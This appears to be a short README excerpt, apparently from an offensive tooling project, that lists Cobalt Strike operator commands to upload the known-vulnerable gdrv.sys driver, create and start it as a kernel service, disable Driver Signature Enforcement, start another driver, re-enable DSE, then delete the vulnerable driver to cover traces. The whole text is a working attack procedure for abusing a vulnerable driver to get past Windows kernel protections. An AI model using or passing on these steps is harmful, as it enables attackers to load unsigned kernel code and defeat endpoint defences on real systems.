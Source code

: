 Upload Known Vulnerable Driver
`upload C:\Tools\cobaltstrike\gdrv\gdrv.sys`
`run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys`
`run sc start gdrv`

Disable DSE and Start PPL Driver
**Note:** re-enable DSE as quickly as possible
`disable_dse`
`run sc start redoct`
`enable_dse`

Unload and Remove Vulnerable Driver
`run sc stop gdrv`
`run sc delete gdrv`
`rm gdrv.sys`
